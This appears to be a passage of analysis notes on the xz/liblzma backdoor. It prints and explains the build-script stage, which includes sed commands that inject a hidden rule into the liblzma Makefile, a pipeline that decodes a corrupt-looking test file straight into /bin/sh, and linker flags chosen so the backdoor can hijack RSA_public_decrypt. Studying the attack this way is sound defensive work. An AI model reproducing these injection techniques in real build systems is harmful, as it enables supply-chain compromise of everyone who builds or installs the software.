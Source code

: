 - Add `liblzma_la_LDFLAGS += -Wl,--sort-section=name,-X` to `src/liblzma/Makefile`.
- If `liblzma_la_LDFLAGS` not set `z`, `now` or `Wl`, `now`, add `z`, `now`.
- `Wl, now` forces `LD_BIND_NOW` behavior
  - The dynamic loader resolves all symbols at program startup time <-> Lazy bind
  - One reason this is normally done is for security
  - Global Offset Table(GOT) and Procedure Linkage Tables(PLT) can be marked read-only early in process startup, so that buffer overflows or write-after-free bugs cannot target those tables
  - It also has the effect of running GNU indirect function (ifunc) resolvers at startup during that resolution process, and the backdoor arranges to be called from one of those.
  - This early invocation of the backdoor setup lets it run while the tables are still writable, allowing the backdoor to replace the entry for `RSA_public_decrypt` with its own version.
- `L="^all: all-recursive$"`
- `j="liblzma_la_LDFLAGS += $h"`
- `h="-Wl,--sort-section=name,-X"`
- `if` condition makes `h="-Wl,--sort-section=name,-X,-z,now"`

```
        sed -i "s/$O/$C/g" libtool || true
```

- In libtool, `pic_flag=" -fPIC -DPIC"` changes
- To `pic_flag=" -fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"`
- Disable linker optimizations that could get in the way of subterfuge.
- `O="^pic_flag=\" -fPIC -DPIC\"$"`
- `P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"`
- `C="pic_flag=\" $P\""`

```
        k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"
        sed -i "s/$u/$k/" src/liblzma/Makefile || true
        l="LTDEPS='\$(lib_LTDEPS)'; \\\\\n\            export top_srcdir='\$(top_srcdir)'; \\\\\n\            export CC='\$(CC)'; \\\\\n\            export DEFS='\$(DEFS)'; \\\\\n\            export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\            export INCLUDES='\$(INCLUDES)'; \\\\\n\            export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\            export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\            export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\            export CFLAGS='\$(CFLAGS)'; \\\\\n\            export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\            export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\            export libdir='\$(libdir)'; \\\\\n\            export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\            export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\        sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";
        sed -i "/$m/i$l" src/liblzma/Makefile || true
        eval $zrKcHD
    fi
```

- `sed -i "s/$u/$k/" src/liblzma/Makefile || true`
- Changes `$u` to `$k` in `src/liblzma/Makefile`
- `u="AM_V_CCLD = \$(am__v_CCLD_\$(V))"`
- `k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"`
- `sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";`
- `"am__test_dir=\$(top_srcdir)/tests/files/\$(am__test)"`
- `"am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/null | \$(SHELL)"`
- `sed rpath {file}` == `cat {file}`
- `cat $(top_srcdir)/tests/files/bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d 2>/dev/null | \$(SHELL)`
- Same as `cat ./tests/files/bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d | /bin/sh`
- `m="^LTLIBRARIES = \$(lib_LTLIBRARIES)"`
- `l` is in upper code block
- `sed -i "/$m/i$l" src/liblzma/Makefile || true`
- Insert `$l` next line of `$m`

---